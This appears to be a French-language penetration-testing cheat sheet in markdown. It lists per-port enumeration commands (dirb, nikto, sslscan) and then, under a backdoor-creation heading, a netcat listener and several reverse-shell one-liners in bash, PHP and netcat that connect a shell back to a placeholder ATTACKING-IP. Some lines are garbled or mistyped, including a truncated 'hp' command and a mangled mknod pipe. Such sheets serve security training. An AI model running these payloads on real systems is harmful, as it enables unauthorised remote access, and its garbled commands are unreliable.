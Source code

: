  #### Port 3389 RDP
 ```bash

 ```
 
  #### Port 80 HTTP
 ```bash
dirb http://INSERT_IP_ADDRESS/
nikto –h INSERT_IP_ADDRESS
 ```
 
  #### Port 443 HTTPS
  > Heartbleed
 ```bash
sslscan INSERT_IP_ADDRESS:443
 ```
 

 
 
 ## Navigation HTTP & FTP
 ## Création de backdoor
 
 > Ecouté sur le un port ( utilisé un port ouvert par defaut comme 80, 443 ou 53( ici 80 )
 ```bash 
 nc -nvlp 80
 nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
 ```
 #### Bash Reverse Shells
  ```bash
  exec /bin/bash 0&0 2>&0
  
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1

  ```
 
 #### PHP Reverse Shell
 
```bash
hp -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```
---
 Link : PentestMonkey
 
 ---
 #### Netcat Reverse Shell
 ```bash
 nc -e /bin/sh ATTACKING-IP 80
 
/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
 ```
 